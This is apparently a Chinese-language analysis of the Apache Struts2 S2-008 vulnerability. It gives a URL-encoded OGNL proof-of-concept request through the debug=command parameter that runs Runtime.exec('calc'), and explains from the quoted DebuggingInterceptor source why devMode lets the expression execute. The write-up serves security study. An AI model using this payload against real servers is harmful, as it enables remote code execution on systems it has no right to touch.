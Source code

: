 ## S2-008

影响版本：Struts 2.0.0 - Struts 2.3.17

CVE编号：none

POC如下：

```java
// 需要开启devmode，但是Struts2默认关闭
?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29)
```

这个漏洞很简单，如果开启debug模式，漏洞就发生在 `org.apache.struts2.interceptor.debugging.DebuggingInterceptor#intercept(ActionInvocation)` 中（当前，要经过这个拦截器首先得开启debug模式）。看到简化的代码：

```java
    public String intercept(ActionInvocation inv) throws Exception {
        boolean actionOnly = false;
        boolean cont = true;
        Boolean devModeOverride = FilterDispatcher.getDevModeOverride();
        boolean devMode = devModeOverride != null ? devModeOverride : this.devMode;
        final ActionContext ctx;
        if (devMode) {
            ctx = ActionContext.getContext();
            String type = this.getParameter("debug");
            ctx.getParameters().remove("debug");
            if ("xml".equals(type)) {
                // ......
            } else if ("console".equals(type)) {
                // ......
            }else if ("command".equals(type)) {
                ValueStack stack = (ValueStack)ctx.getSession().get("org.apache.struts2.interceptor.debugging.VALUE_STACK");
                if (stack == null) {
                    stack = (ValueStack)ctx.get("com.opensymphony.xwork2.util.ValueStack.ValueStack");
                    ctx.getSession().put("org.apache.struts2.interceptor.debugging.VALUE_STACK", stack);
                }

                String cmd = this.getParameter("expression");
                ServletActionContext.getRequest().setAttribute("decorator", "none");
                HttpServletResponse res = ServletActionContext.getResponse();
                res.setContentType("text/plain");

                try {
                    PrintWriter writer = ServletActionContext.getResponse().getWriter();
                    writer.print(stack.findValue(cmd));
                    writer.close();
                } catch (IOException var17) {
                    var17.printStackTrace();
                }

                cont = false;
            }
            // ......
```
